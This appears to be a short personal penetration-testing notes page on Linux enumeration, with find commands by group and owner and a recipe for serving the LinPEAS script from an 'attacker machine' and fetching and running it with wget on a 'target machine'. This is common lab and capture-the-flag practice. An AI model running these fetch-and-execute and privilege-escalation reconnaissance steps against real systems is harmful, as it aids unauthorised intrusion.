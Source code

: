 # Linux Enumeration

## Reading all Files

```bash
cat */*
```

## Find Command

[https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group)  
```bash
find / -group groupX
```
  
[https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions)  
```bash
find / -user user
```

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Placing it in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Aliases#Useful Aliases]] for `enumserve` alias setup.

On attacker machine:

```bash
enumserve
```

Find your IP address ([[Networking#Get your IP]])

On target machine:

```bash
wget [IP]:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```